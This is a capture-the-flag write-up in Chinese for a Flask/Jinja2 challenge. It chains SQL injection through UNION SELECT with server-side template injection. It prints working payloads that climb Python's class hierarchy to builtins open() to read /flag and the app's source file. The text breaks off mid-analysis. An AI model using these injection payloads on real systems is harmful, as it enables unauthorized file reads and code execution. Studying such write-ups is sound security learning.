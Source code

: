 http://47.105.148.65:29003/?username=

这个点首先

http://47.105.148.65:29003/?username={{ config }}

判断存在ssti

结合题目分析下代码结构:

通过传递用户名然后进入sql查询得到数据然后返回页面 

那么就存在代码是这样的 

username = request.args.get('username')

data = SQL(username)

render_template('index.html',name=username,data=data)

`{% name %} {% data['name']%}`

一开始 直接传入 {{ config }}理论来说应该是查询错误的 但是数据库有返回而且还渲染出了config的内容

我当时就猜测是不是参数进行了一些框架处理 能知道{{}} 要渲染模版 jinja2模版就是这样

然后针对	`username={{可控点}}` 进行了测试  然后发现各种不行 

后来我就随手打了个单引号 发现了个注入 然后看了下表结构没有什么有价值的东西

后来转念想想 这个可以union注入 也就是数据库返回内容我们可以控制 考虑之前假设的代码结构说明这个点也可能存在ssti

```python
http://47.105.148.65:29003/?username=-1' union select 1,'{{config}}',1#
```

发现的确如此 然后

```python
http://47.105.148.65:29003/?username=-1' union select 1,'{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__["open"]("/flag").read()}}',1#
```

便可以获取到flag



# 加深研究

​	由于做的时候感觉很多都是猜测而且和假设很多出入,所以打算拿源代码进行看看

 由之前的payload很容易想到

```python
http://47.105.148.65:29003/?username=-1' union select 1,'{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__["open"](__file__).read()}}',1%23
```

发现出现了render error 

当时考虑了 猜测两种可能

(1)替换了_\_file__  ->`{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__["open"]().read()}}`
